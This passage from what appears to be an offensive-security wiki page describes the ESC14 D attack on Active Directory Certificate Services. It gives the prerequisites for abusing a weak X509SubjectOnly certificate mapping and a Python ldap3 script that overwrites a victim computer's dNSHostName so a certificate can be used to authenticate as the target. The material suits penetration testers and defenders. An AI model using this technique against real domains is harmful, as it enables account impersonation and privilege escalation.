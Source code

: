 :::


#### (ESC14 D) Target with X509SubjectOnly

The target has an explicit weak mapping of type `X509SubjectOnly`. The attacker can modify the `cn` or `dNSHostName` attribute of the victim to match the subject of the `X509SubjectOnly` mapping of the target. It is then possible to enroll on the certificate template with the victim, and use the resulting certificate to authenticate as the target.

For this attack, _some_ additional prerequisites are necessary:

> [!WARNING]
> * The target already has at least one `X509SubjectOnly` mapping in `altSecurityIdentities`
> * If the victim is a user:
 > * The attacker can modify the `cn` and `name` attributes of the victim (to change the `cn`, the `name` must match)
 > * If the target is a user and the `X509SubjectOnly` mapping has the current value of the `cn` attribute of the target as its identifier, the victim and the target cannot be in the same container (the DC will not allow the `cn` of the victim to be set according to the `cn` of the target if they are in the same container, as this would mean that they have the same `distinguishedName`)
> * If the victim is a machine: the attacker has write access to the `dNSHostName` attribute
> * The certificate template indicates `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag`
> * The template has one of the following flags in `msPKI-Certificate-Name-Flag`: `CT_FLAG_SUBJECT_REQUIRE_COMMON_NAME` or `CT_FLAG_SUBJECT_REQUIRE_DNS_AS_CN`
> * The certificate does not have any of the following flags: `CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH` and `CT_FLAG_SUBJECT_REQUIRE_EMAIL`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`

In this example, the target has the explicit mapping value `X509:<S>CN=TARGET`. One must change the `dNSHostName` of the victim (in this case a computer) to equal `$TARGET`.

::: tabs

=== UNIX-like

From UNIX-like systems, the `dNSHostName` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'dNSHostName':[(ldap3.MODIFY_REPLACE, '<TARGET>')]}
)

conn.unbind()
```

